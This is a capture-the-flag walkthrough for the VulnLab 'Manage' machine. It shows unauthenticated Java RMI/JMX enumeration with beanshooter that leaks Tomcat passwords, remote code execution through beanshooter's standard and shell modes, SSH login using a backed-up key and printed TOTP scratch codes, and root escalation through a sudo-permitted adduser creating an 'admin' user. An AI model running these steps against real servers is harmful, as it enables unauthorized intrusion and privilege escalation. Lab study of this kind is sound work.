


# VulnLab Machine : Manage


## Enumeration
### Nmap scan 
```sh
Nmap scan report for 10.10.124.180
Host is up (0.035s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a9:36:3d:1d:43:62:bd:b3:88:5e:37:b1:fa:bb:87:64 (ECDSA)
|_  256 da:3b:11:08:81:43:2f:4c:25:42:ae:9b:7f:8c:57:98 (ED25519)
2222/tcp open  java-rmi Java RMI
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @127.0.1.1:33875
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
8080/tcp open  http     Apache Tomcat 10.1.19
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/10.1.19
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Tomcat (8080)

The remote server is hosting  Tomcat


navigate to `http://10.10.124.180:8080/manager/html` 


we found those default credentials, let's keep it in mind
```xml
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

#### Java RMI (2222)
Java RMI (Remote Method Invocation) is a technology built into the Java platform that allows a Java program on one computer to invoke methods (functions) on an object running on another computer—as if it were running locally.


Use beanshooter to enumerate Java RMI services and check for common weaknesses.
> The Beanshooter tool was used for vulnerability scanning and exploitation, revealing that authentication is not enabled and some credentials for the Tomcat users are exposed.

```sh
java -jar  beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.124.180 2222
[+] Checking available bound names:
[+]
[+] 	* jmxrmi (JMX endpoint: 127.0.1.1:33875)
[+]
[+] Checking for unauthorized access:
[+]
[+] 	- Remote MBean server does not require authentication.
[+] 	  Vulnerability Status: Vulnerable
[+]
[+] Checking pre-auth deserialization behavior:
[+]
[+] 	- Remote MBeanServer rejected the payload class.
[+] 	  Vulnerability Status: Non Vulnerable
[+]
                        .....................................
[+]
[+] Enumerating tomcat users:
[+]
[+] 	- Listing 2 tomcat users:
[+]
[+] 		----------------------------------------
[+] 		Username:  manager
[+] 		Password:  fhErvo2r9wuTEYiYgt
[+] 		Roles:
[+] 			   Users:type=Role,rolename="manage-gui",database=UserDatabase
[+]
[+] 		----------------------------------------
[+] 		Username:  admin
[+] 		Password:  onyRPCkaG4iX72BrRtKgbszd
[+] 		Roles:
[+] 			   Users:type=Role,rolename="role1",database=UserDatabase
```
I tried to reuse the admin credentials for SSH, but Authentication failed. likely requires a key or SSH is configured for key-based login only
```sh
$ ssh admin@10.10.124.180
admin@10.10.124.180: Permission denied (publickey).
```
## Exploitation

According to the repository for Beanshooter tool , the recommended method for achieving remote code execution (RCE) is as follows:

[Command execution via the standard action is blind and you do not receive the output of your command. Moreover, by default your command is passed to Runtime.exec(String str), which does not support special shell features. If you want to use shell features, use the --exec-array option and specify your command like this: 'sh -c echo "my cool command" > /tmp/test.txt'. With --exec-array, beanshooter splits the specified command in three parts and passes them to Runtime.exec(String[] arr)](https://github.com/qtc-de/beanshooter#standard)

```sh
$ java -jar  beanshooter-4.1.0-jar-with-dependencies.jar  standard  10.10.124.180 2222 tonka
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+] 	Deplyoing MBean: StandardMBean
[+] 	MBean with object name de.qtc.beanshooter:standard=2052703016539 was successfully deployed.
[+]
[+] 	Caught NullPointerException while invoking the newTransformer action.
[+] 	This is expected bahavior and the attack most likely worked :)
[+]
[+] 	Removing MBean with ObjectName de.qtc.beanshooter:standard=2052703016539 from the MBeanServer.
[+] 	MBean was successfully removed.

$ java -jar  beanshooter-4.1.0-jar-with-dependencies.jar tonka  shell 10.10.124.180 2222    
[tomcat@10.10.124.180 /]$ whoami
tomcat
```
here we go ! , we got our shell , also i found a `backup.tar.gz` in `/home/useradmin/backups`

```sh
[tomcat@10.10.124.180 /home]$ cd useradmin
[tomcat@10.10.124.180 /home/useradmin]$ ls
backups
[tomcat@10.10.124.180 /home/useradmin]$ cd backups
[tomcat@10.10.124.180 /home/useradmin/backups]$ ls
backup.tar.gz
```
we transfert it to our host and we decompress it .

```sh
$ tar -xzvf backup.tar.gz
./
./.bash_logout
./.profile
./.ssh/
./.ssh/id_ed25519
./.ssh/authorized_keys
./.ssh/id_ed25519.pub
./.bashrc
./.google_authenticator
./.cache/
./.cache/motd.legal-displayed
./.bash_history
```
In the backup, there is `useradmin`'s ssh keys, We use it to make ssh connection , but there is a MFA verification code.
```sh
$ ssh -i id_ed25519 useradmin@10.10.124.180
(useradmin@10.10.124.180) Verification code:
```
i tried one of the `TOTP`
```sh
$ cat .google_authenticator                       
CLSSSMHYGLENX5HAIFBQ6L35UM
" RATE_LIMIT 3 30 1718988529
" WINDOW_SIZE 3
" DISALLOW_REUSE 57299617
" TOTP_AUTH
99852083
20312647
73235136
92971994
86175591
98991823
54032641
69267218
76839253
56800775
```
Authentication succeeded
```sh
$ ssh -i id_ed25519 useradmin@10.10.124.180
(useradmin@10.10.124.180) Verification code: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
useradmin@manage:~$ 
```
## Privilege escalation
List of  commands the current user `useradmin` can run with sudo without a password.
```sh
useradmin@manage:~$ sudo -l
Matching Defaults entries for useradmin on manage:
    env_reset, timestamp_timeout=1440, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User useradmin may run the following commands on manage:
    (ALL : ALL) NOPASSWD: /usr/sbin/adduser ^[a-zA-Z0-9]+$
```
On Ubuntu systems, creating a user named admin is a particularly effective privilege-escalation technique because of how the operating system handles this account and group by default. During system setup, if no administrative user or group exists, the adduser utility can be used to create one. When the name admin is specified, Ubuntu automatically creates both an admin user and an admin group, and the group is already referenced in the /etc/sudoers configuration. Membership in this group grants full sudo privileges, allowing the new account to execute commands as root without further configuration. By exploiting a sudo rule that allowed running adduser as root without a password, an attacker can simply create an admin user and immediately gain elevated permissions, achieving root access in a single step.

```sh
useradmin@manage:/home/karl$ sudo /usr/sbin/adduser admin
Adding user `admin' ...
Adding new group `admin' (1004) ...
Adding new user `admin' (1004) with group `admin' ...
Creating home directory `/home/admin' ...
Copying files from `/etc/skel' ...
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for admin
Enter the new value, or press ENTER for the default
	Full Name []: 
	Room Number []: 
	Work Phone []: 
	Home Phone []: 
	Other []: 
Is the information correct? [Y/n] 
useradmin@manage:/home/karl$ su admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@manage:/home/karl$ id
uid=1004(admin) gid=1004(admin) groups=1004(admin)
admin@manage:/home/karl$ sudo su
[sudo] password for admin: 
root@manage:/home/karl# cd ~
root@manage:~# ls
root.txt  snap
```
[Manage pwned](https://api.vulnlab.com/api/v1/share?id=5ebdeab5-adf1-4bc6-a7af-b2a7bd2778a2)

